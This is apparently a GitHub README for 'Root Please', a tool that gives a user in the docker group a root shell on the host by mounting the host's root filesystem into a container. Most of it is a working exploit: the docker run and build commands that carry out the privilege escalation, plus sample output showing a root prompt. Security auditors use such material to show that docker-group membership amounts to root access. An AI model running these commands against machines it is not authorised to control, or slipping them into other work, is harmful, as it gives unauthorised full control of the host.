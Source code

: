 Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a
root shell on the host OS. [See my blog post for
details](https://fosterelli.co/privilege-escalation-via-docker.html).

How to Use
----------

Through Docker Hub:

```bash
> docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -it --rm rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -it --rm chrisfosterelli/rootplease

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```
